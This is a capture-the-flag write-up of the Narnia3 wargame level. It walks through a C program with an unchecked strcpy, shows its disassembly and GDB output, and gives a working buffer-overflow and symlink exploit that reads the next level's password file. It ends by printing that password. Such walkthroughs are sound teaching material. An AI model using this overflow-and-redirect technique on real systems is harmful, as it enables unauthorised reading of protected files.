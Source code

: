# narnia3
slopey112 - 3/6/19

Let's open up the source code to get an idea of how this works.
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```
Looking it over, we can see that the binary is relatively simple; We open a file, and then we copy that file into `/dev/null`.

The vulnerability here is clearly visible; once again, just like `narnia2`, there is no bounds checking for the argument we are passing. Therefore, the vulnerability is a buffer overflow again. Can we overflow into `/dev/null`? Turns out we can. Let's open up GDB and try it out.
```assembly
0x0804850b <+0>:	push   ebp
0x0804850c <+1>:	mov    ebp,esp
0x0804850e <+3>:	sub    esp,0x58
0x08048511 <+6>:	mov    DWORD PTR [ebp-0x18],0x7665642f
0x08048518 <+13>:	mov    DWORD PTR [ebp-0x14],0x6c756e2f
0x0804851f <+20>:	mov    DWORD PTR [ebp-0x10],0x6c
0x08048526 <+27>:	mov    DWORD PTR [ebp-0xc],0x0
0x0804852d <+34>:	cmp    DWORD PTR [ebp+0x8],0x2
0x08048531 <+38>:	je     0x804854d <main+66>
0x08048533 <+40>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048536 <+43>:	mov    eax,DWORD PTR [eax]
0x08048538 <+45>:	push   eax
0x08048539 <+46>:	push   0x80486a0
0x0804853e <+51>:	call   0x8048390 <printf@plt>
0x08048543 <+56>:	add    esp,0x8
0x08048546 <+59>:	push   0xffffffff
0x08048548 <+61>:	call   0x80483b0 <exit@plt>
0x0804854d <+66>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048550 <+69>:	add    eax,0x4
0x08048553 <+72>:	mov    eax,DWORD PTR [eax]
0x08048555 <+74>:	push   eax
0x08048556 <+75>:	lea    eax,[ebp-0x38]
0x08048559 <+78>:	push   eax
0x0804855a <+79>:	call   0x80483a0 <strcpy@plt>
0x0804855f <+84>:	add    esp,0x8
0x08048562 <+87>:	push   0x2
0x08048564 <+89>:	lea    eax,[ebp-0x18]
0x08048567 <+92>:	push   eax
0x08048568 <+93>:	call   0x80483c0 <open@plt>
...
```
Here's the break point up to the first `open` function. Take a look at the source code again. The real vulnerability lies in the `call` function; we are copying the first command line argument into a 32 byte buffer, and then trying to open that, and `/dev/null`. So we'll see what happens when we plug in something that is greater than 32 bytes.

Let's set a break point right at the last line in this snippet of code, and we'll see where we overflow into.
```
(gdb) b *0x08048568
Breakpoint 1 at 0x8048568
(gdb) r $(python -c "print '/tmp/'+'A'*27+'BBBB'")
Starting program: /narnia/narnia3 $(python -c "print '/tmp/'+'A'*27+'BBBB'")

Breakpoint 1, 0x08048568 in main ()
(gdb) x/s $eax
0xffffd680:	"BBBB"
```
When we take a look at the argument pushed into `open`, we can see that it is overflown; however, here's the key insight: we overflown the *old file*, not the new one; the old file was suppose to be `/dev/null`, but we were able to redirect it to a random file.

With this realization, the solution is understandable; we make a symbolically linked file to the flag, and we'll push that into the binary.
```
narnia3@narnia:~$ mkdir -p $(python -c "print '/tmp/'+'A'*27+'/tmp'")
narnia3@narnia:~$ cd $(python -c "print '/tmp/'+'A'*27+'/tmp'")
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA$ cd tmp
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ ln -s /etc/narnia_pass/narnia4 BBBB
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ touch /tmp/BBBB
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ chmod 777 /tmp/BBBB
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ /narnia/narnia3 "$(pwd)/BBBB"
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/BBBB to a safer place... (/tmp/BBBB)
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ cat /tmp/BBBB
thaenohtai
```
